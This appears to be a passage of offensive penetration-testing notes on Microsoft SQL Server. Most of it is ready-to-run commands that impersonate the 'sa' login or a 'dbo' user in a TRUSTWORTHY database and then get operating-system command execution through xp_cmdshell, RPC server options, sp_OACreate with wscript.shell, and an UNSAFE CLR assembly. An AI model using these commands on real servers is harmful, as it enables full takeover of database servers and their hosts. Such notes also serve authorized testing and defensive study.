 ```
EXECUTE AS LOGIN = 'sa'; SELECT SYSTEM_USER;
```

#### Database User Level 

Two pre-reqs:
1. user has been granted impersonation
2. db user can only perform actions on a given db (impersonation of a user w/ sysadmin role membership in a db does not necessarily lead to server-wide sysadmin role membership)

To fully compromise the server, the db user we imperonsate must be in a db that has the `TRUSTWORTHY` propery set

```
use msdb; EXECUTE AS USER = 'dbo'; SELECT SYSTEM_USER;
```

### Command Execution

#### xp_cmdshell

```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell whoami
```

##### Enable RPC Server

```
EXEC sp_serveroption 'sql03', 'rpc', 'true'; EXEC sp_serveroption 'sql03', 'rpc out', 'true';
```

#### sp_OACreate & sp_OAMethod

```
EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;
DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'cmd /c \"" + sysCmd + "\"';
```

#### Stored Procedure Custom Assembly

DB has to have TRUSTWORTHY property set

```
# SQL Prep Summary
use msdb
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'clr enabled',1
RECONFIGURE
EXEC sp_configure 'clr strict security', 0
RECONFIGURE

# SQL Import 
# CREATE ASSEMBLY myAssembly FROM 'c:\tools\cmdExec.dll' WITH PERMISSION_SET = UNSAFE;
CREATE ASSEMBLY my_assembly FROM 0x4D5A900..... WITH PERMISSION_SET = UNSAFE;

# Create Procedure
CREATE PROCEDURE [dbo].[cmdExec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [myAssembly].[StoredProcedures].[cmdExec];

# exec
EXEC cmdExec 'whoami'
```
